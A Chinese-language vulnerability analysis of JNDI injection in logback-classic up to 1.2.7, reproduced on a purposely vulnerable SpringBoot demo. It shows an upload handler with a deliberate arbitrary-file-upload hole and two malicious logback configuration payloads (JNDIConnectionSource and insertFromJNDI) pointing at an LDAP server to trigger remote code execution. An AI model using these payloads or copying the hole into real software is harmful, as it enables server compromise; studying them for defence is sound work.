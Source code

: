 ##  影响版本

logback-classic <=1.2.7

##  测试环境

 SpringBoot 2.6.1 

 JDK 8u111(请注意 JNDI 可利用的版本)

## 复现项目地址

https://github.com/cn-panda/logbackRceDemo

项目是用 SpringBoot 写的一个简单的漏洞 Demo 环境，主要是`UploadController`中的`upload`函数：

```java
public String upload(@RequestParam("file") MultipartFile file) {  
    if (file.isEmpty()) {  
        return "Upload failed, please select a file！！";  
    }  
  
    String fileName = file.getOriginalFilename();  
    String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
    System.out.println(filePath);  
    File dest = new File(filePath,fileName);  
    try {  
        file.transferTo(dest);  
        LOGGER.info("Upload succeeded!!");  
        return "Upload succeeded!!";  
    } catch (IOException e) {  
        LOGGER.error(e.toString(), e);  
    }  
    return "Upload failed!!";  
}
```

该函数主要功能是用来上传文件。

项目中 logback 的配置文件如下：

![[../image/Pasted image 20211214164218.png]]

关键点在于`scan`属性，该属性是 logback 用于定时扫描配置文件的变化，若检测到配置文件发生改变，则实时更新加载配置文件

在这里，我故意的写了一个存在任意文件上传的漏洞环境，然后借助 loghack 配置文件中的`scan`属性，配合logback漏洞，实现 RCE

# 漏洞分析

## JNDIConnectionSource
在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

该接口提供了一种可插拔式的方式为需要使用 `java.sql.Connection` 的 logback 类获取 JDBC 连接

目前有三种实现类，分别为： `DriverManagerConnectionSource` 、`DataSourceConnectionSource`与 `JNDIConnectionSource`。

这三种实现类每一种都可以用来达到 RCE

但和另外两种实现类不同的是，`JNDIConnectionSource` 实现 RCE 的方式更方便，因为和它可以不借助其他依赖组件的 gadget，仅依靠应用提供的本身机制（JNDI）即可实现 RCE， 但 `DriverManagerConnectionSource` 、`DataSourceConnectionSource`必须依赖 JDBC 反序列漏洞才能够实现 RCE，限制比较大，故这里不做演示。

**JNDIConnectionSource** 是 logback 自带的方法，从名字就可以看出来，它通过 JNDI 获取 javax.sql.DataSource，然后再获取 java.sql.Connection 实例

实际上可以通过观察`JNDIConnectionSource.java`中`getConnection`方法的代码可以发现：

![[../image/Pasted image 20211214155414.png]]

如果dataSource 为空，那么就令`dataSource = lookupDataSource();`

然后在**lookupDataSource()** 中触发 `lookup`:

![[../image/Pasted image 20211214155302.png]]

#### 漏洞复现

首先下载复现源码，然后运行`RceDemoApplication`项目的main 函数：

![[../image/Pasted image 20211214160245.png]]

然后打开浏览器，在地址栏中输入：`http://localhost:8080` 即可访问项目首页

![[../image/Pasted image 20211214160704.png]]

然后在本地创建一个`logback-spring.xml`的配置文件，文件内容如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
    　　　　　 <encoder>  
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
    　　　　　 </encoder>  
    　　　</appender>  
    <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
        <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
            <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
        </connectionSource>  
    </appender>  
  
    　　　<root level="DEBUG">  
    　　　　　　<appender-ref ref="STDOUT" />  
    　　　</root>  
</configuration>
```

然后再访问`http://localhost:8080/upload.html`，选择该文件后点击上传按钮，抓包可以看到文件上传成功：

![[../image/Pasted image 20211214163728.png]]

等待十秒钟后，即可成功执行 RCE

![[../image/Pasted image 20211214164425.png]]

## insertFromJNDI

除了`JNDIConnectionSource`外，实际上还有一种配置可以实现 JNDI 注入—— **insertFromJNDI**

`<insertFromJNDI>` 是 logback 的配置标签，用于设置属性的范围，其支持通过 JNDI 的方式来获取属性值，同样的，如果修改`<insertFromJNDI>` 标签的内容，同样可以实现 JNDI 注入

当使用`<insertFromJNDI>` 标签的时候，意味着会调用`InsertFromJNDIAction.java`文件中的`begin`方法，在该方法中会使用`JNDIUtil.lookup` 方法，从而触发漏洞：

![[../image/Pasted image 20211214170343.png]]

### 漏洞复现

和 #JNDIConnectionSource 中复现步骤大致相同，只是上传文件中利用的payload 需要改变，如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    　　　　　 <encoder>
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
    　　　　　 </encoder>
    　　　</appender>
    <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  

　　　<root level="DEBUG">
    　　　　　　<appender-ref ref="STDOUT" />
    　　　</root>
</configuration>
```

上传该配置文件：

![[../image/Pasted image 20211214170840.png]]

同样的，等待 10 秒后，即可触发 RCE：

![[../image/Pasted image 20211214171037.png]]

实际上，除了这两个外，`JMXConfiguratorAction`中的`begin`同样可以进行恶意利用

![[../image/Pasted image 20211214175452.png]]

# 总结

总的来说，这个漏洞的触发方式还是比较困难的，除非能够满足以下条件：

1、能够修改或者覆盖 logback 的配置文件
2、能够使得修改的配置文件生效
2、能够使得修改的配置文件生效
